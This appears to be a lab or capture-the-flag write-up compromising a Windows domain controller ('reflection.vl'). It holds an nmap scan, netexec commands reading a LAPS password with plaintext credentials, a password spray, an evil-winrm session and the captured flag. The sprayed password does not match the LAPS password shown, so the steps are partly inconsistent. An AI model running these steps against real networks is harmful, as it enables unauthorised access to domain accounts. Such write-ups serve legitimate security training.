





As usual I will start by checking for open services over the TCP stack.

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-19 08:25:27Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: reflection.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2026-03-19T08:27:00+00:00; +3s from scanner time.
| ms-sql-ntlm-info: 
|   10.13.38.44:1433: 
|     Target_Name: REFLECTION
|     NetBIOS_Domain_Name: REFLECTION
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: reflection.vl
|     DNS_Computer_Name: dc01.reflection.vl
|     DNS_Tree_Name: reflection.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-19T03:41:09
| Not valid after:  2056-03-19T03:41:09
| MD5:     a83b 6bdf 3351 dfb1 2098 b328 e5c0 133c
| SHA-1:   915a 7e70 310d ee84 186c 3f84 f2f1 7042 4b7d 1296
| SHA-256: 3b8f 5d62 7465 faa4 c488 af30 41a9 4421 ab8f 94bb 8377 339b d33e 9eef 8ceb fe57
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQcgdm5WRMap9OAtdjkms2gTANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzE5MDM0MTA5WhgPMjA1NjAzMTkwMzQxMDlaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAJm+svZC
| 1DqFsdSh9aedYS/TYPIBnSbIlELfYOCLfz+FjSAZgCnbcb2ccoAluV27WXFDW5en
| IFQ5HTdbh6hVwzFybWgXuViTvpSKXb8L+iR4Mn7fB2URrAA2pkV6dUv5jGEUP1Cg
| 7AH6/Tx1LlhqOsO96NRHkqMUMxIx4u4ffimmEDS6b3dv9DZbulj5t9Q6TuCGICl1
| ziIL6iRcMJVhamvhgmUTypZ6PTcibDIdMOR3fAB64nSvTI70ucgD+u+FVRIqGdgi
| 6wskefV6GSdB300PpMYJ7rLd2MB+RW9EWZ4JUUZgJM81vlaK3Yq1nB3CnkD1W8wQ
| Jc/K8+gALktCDPkCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAVciVkXLtjk40l7c9
| k8hnOb368jSKohmPQsP88tZ5oCjyZbsC2MkSgTo5DtAvOrE3Uar8B7JHBOyzc9vU
| N9pNTtHkbkudqcJDsvyjYGfo73SqmNoREQDfzLpRap6zJJGifG01mqo5/gEsh0Hf
| ZNirZw+/sYg7Z9/4MYaKJur5zy1TyRIyEmlwdAYsdQz7Rit7N2IOLC4iBzbAGwZI
| KEc4VUpVG8JemRY84aWbam/m+g/Rz0/q3ZNKbzSkrkuIhiM5WJYIs/GFKxu7fxXW
| QU280VF247nXFI3MEaX/KYuBJQyrOxrO4cUx5ls3DD0u0eJXvkFelI3+/VA0ZDOv
| S0OVXg==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.13.38.44:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: reflection.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2026-03-19T08:27:00+00:00; +3s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: dc01.reflection.vl
|   DNS_Tree_Name: reflection.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-19T08:26:20+00:00
| ssl-cert: Subject: commonName=dc01.reflection.vl
| Issuer: commonName=dc01.reflection.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-18T03:38:43
| Not valid after:  2026-09-17T03:38:43
| MD5:     c23f 4373 b630 fc83 8677 c2d6 9b0e 5b88
| SHA-1:   aeae ce90 87d3 3c69 d984 bf52 e8e0 0fcc a5b1 057a
| SHA-256: 81e9 2114 44f1 aae2 ddfb 17b8 19ab 6c21 c6d0 f568 8a48 b7ee 18f2 5ac0 a64c 8634
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQL1Qs0/qFwYRKD5S71XJPIjANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJkYzAxLnJlZmxlY3Rpb24udmwwHhcNMjYwMzE4MDMzODQzWhcN
| MjYwOTE3MDMzODQzWjAdMRswGQYDVQQDExJkYzAxLnJlZmxlY3Rpb24udmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDN/ovUSoiV2ttcKWr4H1fpHGpk
| e3q8og2isqQWVi4v3/0gEVpw//Uc9CmQi7/S63pvkPnO4HTQfHef6/1EwB9+2fU2
| ypOeVdANJ4aZASWa6MTlsCHCRrKAIG9AJoN1w0+u+nq9ZO5NmDmHGD2XBO44nJR0
| 0cT5rZJIfkMn9I2/RNZWrMmnHTelNKBYDkLzGOJjlUmW3nq7hiDwskwUOn7PqV2b
| CH6QaCsqpMuVuVHUxnKEgtAAPq0GdkLjoxN29SuPGeJVC6E1040qPfhGVFoh19A4
| 7O9iph0tNtzord6wgeKKGm2S2hpRrdeP1cl1plA2X6S1uBnqxkqlVxOKjxrRAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEAHnNNlgWkuKycj60Q8PFE+8SBCIafA3xoCqzKxWVnRvsl3alU
| zJFco4AbNOT9HB84Q4cCuAmNyHS4PfVS9eA8mvwS3hPEOZlygDp50cJWRHiADzuz
| A1fpx4JTgyV3XjDX84LBW4Jon53o47G5qtVeBz9fRw5nowkU/JE5YEEdaFvZT2WX
| A5ZRsjOyWBcoHfXZGbRPigeizDKZ7a3DrjaoVb3OTzyL6tV5biNjOnLU9KwgCE99
| lmiucgKLNVMnOO3vL0GWo1+h/GFzY4GELVZUIdEZaX6d5fMesU4aIvB1+1CDJjz6
| 6v4WQncZ6vb7MHzm/pYAvMLxu9M1H/ccujqZxg==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
56703/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56704/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56707/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56712/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
59925/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.98%I=7%D=3/19%Time=69BBB304%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/19%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69BBB353%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=A)
SEQ(SP=108%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.202 days (since Thu Mar 19 04:36:11 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-19T08:26:21
|_  start_date: N/A
|_clock-skew: mean: 2s, deviation: 0s, median: 2s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53387/tcp): CLEAN (Timeout)
|   Check 2 (port 58156/tcp): CLEAN (Timeout)
|   Check 3 (port 59398/udp): CLEAN (Timeout)
|   Check 4 (port 50757/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 1433/tcp)
HOP RTT      ADDRESS
1   32.09 ms 10.10.14.1

```

# AD

Now with those credentials obtained by the **"web_prod"** database I will perform a AD dump and analyze data via Bloodhound. Now Dorothy seems not interesting except being part of the Staff AD group:



But Abbie can much much more!



Now here I have 2 possible ways in:

- Perform a RBCD(only I MAQ is positive), but in this case it is not feasible.
    
    ```bash
    └─$ netexec ldap 10.13.38.44 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M maq
    LDAP        10.13.38.44     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:reflection.vl) (signing:None) (channel binding:No TLS cert)
    LDAP        10.13.38.44     389    DC01             [+] reflection.vl\abbie.smith:CMe1x+nlRaaWEw 
    MAQ         10.13.38.44     389    DC01             [*] Getting the MachineAccountQuota
    MAQ         10.13.38.44     389    DC01             MachineAccountQuota: 0
    
    ```
    
- Alternative is reading the LAPS password (if used of course), which by Bloodhound it is.
    



And now I have the local Administrator's credentials:

```bash
└─$ netexec ldap dc01.reflection.vl -u abbie.smith -p 'CMe1x+nlRaaWEw' -M laps 
LDAP        10.13.38.44     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:reflection.vl) (signing:None) (channel binding:No TLS cert)
LDAP        10.13.38.44     389    DC01             [+] reflection.vl\abbie.smith:CMe1x+nlRaaWEw 
LAPS        10.13.38.44     389    DC01             [*] Getting LAPS Passwords
LAPS        10.13.38.44     389    DC01             Computer:MS01$ User:                Password:H447.++h6g5}xi

```

Now this new user seems not part of any special group so far but performing a quick password spray show traces of more users using the same credentials.



```bash
└─$ netexec smb dc01.reflection.vl -u users.txt -p 'knh1gJ8Xmeq+uP' --continue-on-success
SMB         10.13.38.44     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:None)
SMB         10.13.38.44     445    DC01             [-] reflection.vl\labadm:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Georgia.Price:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Michael.Wilkinson:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Bethany.Wright:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Craig.Williams:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Abbie.Smith:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Dorothy.Rose:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Dylan.Marsh:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [+] reflection.vl\Rhys.Garner:knh1gJ8Xmeq+uP 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Jeremy.Marshall:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\Deborah.Collins:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\svc_web_prod:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [-] reflection.vl\svc_web_staging:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.13.38.44     445    DC01             [+] reflection.vl\dom_rgarner:knh1gJ8Xmeq+uP (Pwn3d!)

```

And this is the end of the road!



And this is the Game over:

```bash
evil-winrm-py PS C:\Users> cd Administrator
evil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> cat root.txt
REFLECT{b8dac817fb151279411f7b734a3e0fc8}
evil-winrm-py PS C:\Users\Administrator\Desktop>


```

&nbsp;